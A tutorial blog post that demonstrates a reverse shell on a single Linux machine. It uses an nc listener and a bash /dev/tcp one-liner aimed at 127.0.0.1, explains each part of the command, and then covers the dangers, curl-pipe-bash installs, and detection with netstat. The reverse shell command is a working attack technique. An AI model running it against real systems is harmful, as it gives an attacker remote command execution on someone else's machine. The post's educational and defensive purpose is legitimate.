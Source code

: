 ```yaml
---
title: "What does a reverse shell actually look like?"
description: "Using basic Linux Bash commands to demonstrate a simple reverse shell."
tags:
  - networking
  - linux
  - bash
  - nc
  - security


---
```


A reverse shell is a type of shell where the target machine (under attack) communicates back to an attacker's machine, and importantly, gives the attacker control over the target machine. 

The attacker's machine will be listening on a port. A malicious script runs on the target machine, which connects back to the attacker's machine. The attacker's machine receives the connection. The attacker is then able to execute commands on the target machine.  

I'll create a simple example to demonstrate one to follow along with, it's just a few basic Linux Bash commands on the same machine. The simplicity of setting up a reverse shell is the reason why you should always be careful about what you run on your machine.

## Set up the listener

In one terminal window, setup a listener. Pretend that this is the attacker's machine.     

```bash
nc -lnvp 1337
```

It should simply say "Listening on 0.0.0.0 1337". 


## Connect to the listener

Now in another terminal window, run this command to 'connect' to the listener. Pretend that this is the machine being compromised.  

```bash
/bin/bash --rcfile <(echo "PS1='omghacker: '") -i >& /dev/tcp/127.0.0.1/1337 0>&1
```

The `/bin/bash` starts a new shell.  
The `-i` makes it interactive.   
The `--rcfile` bit is just something I've added to make the prompt look different, but isn't necessary.
The `>& /dev/tcp/...` redirects the input and output to the listener by making use of the [`/dev/tcp` feature in Linux Bash](2024-07-28-networking-cheat-sheet.md#reach-a-port-on-a-server).  
The `0>&1` redirects both standard input and output to the listener.    

## What happens?

Nothing will happen in the second terminal window. But, go back to the first terminal window where the listener is running, and you should see a new prompt. It might look something like this.  

```
$ nc -lnvp 1337
Listening on 0.0.0.0 1337
Connection received on 127.0.0.1 39738
omghacker:
```

The `omghacker:` is the prompt from the "compromised machine". 

You can now try running commands against it. Try `ls`, `pwd`, `whoami`, etc.

![Reverse shell](/assets/images/simple-reverse-shell-in-linux-bash/001.png)



When you're done, just `exit` to close the connection.


## Why is this dangerous?

This demonstrates just how easy it is to set up a reverse shell; the danger is its simplicity. It's not just limited to Bash, it can be done in [several languages and environments](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/). 

The `whoami` command would have shown that it's the user running on the compromised machine, which means their permissions are the attacker's permissions. 

It's also one of the (many) reasons that `curl | bash` type installations, often seen when installing software, are frowned upon. Sadly, they are still widely used out of laziness, convenience, or simply ignorance, and it is pretty sad to see well established projects promoting this security risk. 

The best way to protect yourself from a reverse shell attack is to be careful about what you run on your machine. If you're running a script from the internet, make sure you understand what it does first, don't just blindly run it. 

For developers, it's important to be avoid trying to make OS calls from code, especially when passing user input directly to the command. Those situations should be avoided as much as possible. Bash is rich and powerful in the creativity it proffers, and so sanitisation is not really going to help that much.

For application deployments, this is one of the (many) reasons why containers are useful; they provide a level of isolation, and therefore a reduced blast radius if something goes wrong.  

Just for reference, the following command can show you all the established connections on your machine, with the process ID and command. 

```bash
netstat -pan | grep -i ESTABLISHED
```

Here is what the reverse shell example would look like. An established connection from bash should prompt you to investigate further.

```
tcp        0      0 127.0.0.1:49364         127.0.0.1:1337          ESTABLISHED 24449/bash 
```

Note: it's not a perfect way of detecting reverse shells though, there are ways of hiding the connection, and the connection isn't always active. Other tools like [Fenrir](https://github.com/Neo23x0/Fenrir) might help as well. 
